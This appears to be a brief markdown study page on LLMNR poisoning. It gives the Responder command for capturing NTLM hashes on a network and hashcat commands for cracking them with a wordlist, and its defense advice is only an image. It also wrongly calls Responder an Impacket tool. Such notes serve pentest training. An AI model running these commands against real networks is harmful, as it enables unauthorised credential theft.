 # LLMNR Poisoning

## What is LLMNR

![image](https://user-images.githubusercontent.com/96747355/167956823-a8f3ac8f-e971-463e-8c67-ba26f5f6e774.png)  
![image](https://user-images.githubusercontent.com/96747355/167956838-6185b47d-dfc8-4cb1-9a4e-39814a7a795b.png)  


## Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

## Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## LLMNR Poisoning Defense

![image](https://user-images.githubusercontent.com/96747355/167956945-7978a93c-5fdf-425a-90e6-87baed015c74.png)  
